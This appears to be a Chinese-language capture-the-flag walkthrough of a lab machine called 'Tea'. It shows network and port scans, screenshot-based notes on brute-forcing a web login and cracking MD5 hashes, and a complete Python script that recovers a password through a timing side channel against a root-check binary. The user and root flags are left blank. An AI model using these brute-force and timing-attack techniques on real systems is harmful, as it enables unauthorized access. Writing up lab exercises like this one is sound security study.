## 网段扫描
```
root@LingMj:~# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:d1:27:55, IPv4: 192.168.137.190
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.137.1	3e:21:9c:12:bd:a3	(Unknown: locally administered)
192.168.137.14	62:2f:e8:e4:77:5d	(Unknown: locally administered)
192.168.137.168	3e:21:9c:12:bd:a3	(Unknown: locally administered)
192.168.137.202	a0:78:17:62:e5:0a	Apple, Inc.
```

## 端口扫描

```
root@LingMj:~# nmap -p- -sC -sV 192.168.137.168
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-06 06:16 EDT
Nmap scan report for Tea.mshome.net (192.168.137.168)
Host is up (0.060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|_  256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Tea.dsz | \xE7\xBD\x91\xE7\xBB\x9C\xE5\xAE\x89\xE5\x85\xA8\xE6\xA0\xBC\xE8\xA8\x80
MAC Address: 3E:21:9C:12:BD:A3 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.55 seconds
```

## 获取webshell

  
  
  

>不知道要不要写域名先写了
>

  
  

>提取人名
>

  

>没有啥区别看来不是这个方案
>

  

>一直提示输入正确邮箱地址看来有点难找
>

  
  

>没有消息回显，看看udp,也不是直接注入post
>

  

>没有咋整呢
>

  

>暴力开锁哈哈哈，跑完10万个密码
>

  
  

>🤔看来这个admin还不是要的用户看看能越不,发现不能但是我要拿到lingmj这个用户，验证码那个邮箱咋填不懂
>

  

>找到邮箱
>

  

>密码是没有的
>

  
  

>这个是md5 	1234hak54321 123bugme 	Cartman
>

  

>可以登录ssh了
>

## 提权

  

>不过主要的不是在这个里/opt有一个检查root的程序那个才是提权关键但是无法看
>

>截止了，看完wp了，这个程序我想错了，就只是求密码，不过肯定有时间，最后爆破出来是toddzhannb一共11位，不过这些都是假设不知道的
>

  

>没啥用目测肯定不是这个方法,现在ai一直改也没有正确，我可以考虑用一下第一个大佬gdb的方案，看完更懵逼了算了学习答案方案
>

  

>正确是没有回显的
>

```
import subprocess
import sys
import time
import string

TARGET_PROGRAM = "./a.out"
MAX_LENGTH = 100
INITIAL_DELAY = 0.2
CHAR_DELAY = 0.05
TIMING_MARGIN = 0.01
ATTEMPTS = 2
DETECT_THRESHOLD = 0.15
CHARSET = string.ascii_lowercase + string.digits

def run_password_test(password):
    start_time = time.perf_counter()
    process = subprocess.Popen(
        [TARGET_PROGRAM, password],
        stdout=subprocess.PIPE,
        stderr=subprocess.PIPE
    )
    _, _ = process.communicate()
    return time.perf_counter() - start_time

def detect_length():
    for length in range(1, MAX_LENGTH + 1):
        test_pwd = 'a' * length
        total_time = 0
        for _ in range(ATTEMPTS):
            elapsed = run_password_test(test_pwd)
            total_time += elapsed
        avg_time = total_time / ATTEMPTS
        
        if avg_time >= DETECT_THRESHOLD:
            return length
    
    print("Password length not found (1-100)")
    sys.exit(1)

def crack_password(password_length):
    known = ""
    
    for position in range(password_length):
        max_time = 0
        best_char = None
        
        for char in CHARSET:
            test_pwd = known + char + 'x' * (password_length - len(known) - 1)
            
            current_time = 0
            for _ in range(ATTEMPTS):
                elapsed = run_password_test(test_pwd)
                if elapsed > current_time:
                    current_time = elapsed
            
            print(f"Testing '{char}': {current_time:.4f}s")
            
            if current_time > max_time:
                max_time = current_time
                best_char = char
        
        expected_time = INITIAL_DELAY + (position + 1) * CHAR_DELAY
        if abs(max_time - expected_time) > TIMING_MARGIN:
            print(f"Warning: Position {position} timing anomaly ({max_time:.4f}s vs expected {expected_time:.4f}s)")
        
        known += best_char
        print(f"Progress: {known}")
    
    return known

if __name__ == "__main__":
    print("Starting password cracker...")
    print("Detecting password length...")
    password_length = detect_length()
    print(f"Password length detected: {password_length}")
    password = crack_password(password_length)
    print(f"\nPassword found: {password}")
```

>好了先到这里吧
>

>userflag:
>
>rootflag:
>